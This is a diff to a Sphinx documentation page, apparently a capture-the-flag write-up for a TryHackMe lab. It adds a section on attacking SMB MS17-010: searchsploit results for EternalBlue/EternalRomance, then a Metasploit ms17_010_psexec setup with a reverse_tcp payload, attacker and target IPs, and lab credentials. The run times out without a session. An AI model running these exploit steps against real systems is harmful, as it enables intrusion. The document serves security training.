

Before and after one commit to tymyrddin/red-escalation, a Sphinx documentation site: the page built from source/docs/thm/relevant.md, in a window 1280 px wide and 1400 px high, scrolled down 5413 px. Shown: the whole window at 82% size. Built offline with Sphinx 7.4.7 and the Read the Docs theme 2.0.0, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

```diff
--- a/source/docs/thm/relevant.md
+++ b/source/docs/thm/relevant.md
@@ -282,7 +282,70 @@ Are those base64-encoded credentials?
 
 ## Exploiting SMB MS17-010
 
+    $ searchsploit MS17-010
+    ---------------------------------------------- ---------------------------------
+     Exploit Title                                |  Path
+    ---------------------------------------------- ---------------------------------
+    Microsoft Windows - 'EternalRomance'/'Eternal | windows/remote/43970.rb
+    Microsoft Windows - SMB Remote Code Execution | windows/dos/41891.rb
+    Microsoft Windows 7/2008 R2 - 'EternalBlue' S | windows/remote/42031.py
+    Microsoft Windows 7/8.1/2008 R2/2012 R2/2016  | windows/remote/42315.py
+    Microsoft Windows 8/8.1/2012 R2 (x64) - 'Eter | windows_x86-64/remote/42030.py
+    Microsoft Windows Server 2008 R2 (x64) - 'Srv | windows_x86-64/remote/41987.py
+    ---------------------------------------------- ---------------------------------
+    Shellcodes: No Results
+    Papers: No Results
 
+Mirroring:
+
+    $ searchsploit -m windows/remote/43970.rb
+      Exploit: Microsoft Windows - 'EternalRomance'/'EternalSynergy'/'EternalChampion' SMB Remote Code Execution (Metasploit) (MS17-010)
+          URL: https://www.exploit-db.com/exploits/43970
+         Path: /usr/share/exploitdb/exploits/windows/remote/43970.rb
+    File Type: Ruby script, ASCII text
+
+    Copied to: /home/nina/43970.rb
+
+Firing up Metasploit:
+
+    msf6 > search MS17-010
+
+    Matching Modules
+    ================
+
+       #  Name                                      Disclosure Date  Rank     Check  Description
+       -  ----                                      ---------------  ----     -----  -----------
+       0  exploit/windows/smb/ms17_010_eternalblue  2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
+       1  exploit/windows/smb/ms17_010_psexec       2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
+       2  auxiliary/admin/smb/ms17_010_command      2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
+       3  auxiliary/scanner/smb/smb_ms17_010                         normal   No     MS17-010 SMB RCE Detection
+       4  exploit/windows/smb/smb_doublepulsar_rce  2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution
+
+Trying 1:
+
+    msf6 > use 1
+    [*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
+    msf6 exploit(windows/smb/ms17_010_psexec) > set LHOST 10.9.1.53
+    LHOST => 10.9.1.53
+    msf6 exploit(windows/smb/ms17_010_psexec) > set LPORT 8888
+    LPORT => 8888
+    msf6 exploit(windows/smb/ms17_010_psexec) > set RHOSTS 10.10.201.108
+    RHOSTS => 10.10.201.108
+    msf6 exploit(windows/smb/ms17_010_psexec) > set SMBPass !P@$$W0rD!123
+    SMBPass => !P@$$W0rD!123
+    msf6 exploit(windows/smb/ms17_010_psexec) > set SMBUser Bob
+    SMBUser => Bob
+    msf6 exploit(windows/smb/ms17_010_psexec) > run
+
+Results:
+
+    [*] Started reverse TCP handler on 10.9.1.53:8888
+    [*] 10.10.201.108:445 - Authenticating to 10.10.201.108 as user 'Bob'...
+    [-] 10.10.201.108:445 - Rex::ConnectionTimeout: The connection with (10.10.201.108:445) timed out.
+    [*] Exploit completed, but no session was created.
+
+Also tried other username (Bill), other shares, and the `auxilliary/admin/smb/ms17_010_command`. All timed out.
+Researched possible causes, but kinda gave up on it. Too much of a rabbit hole. Will try another route.
 
 ## Exploiting HTTP on port 49663
 
```
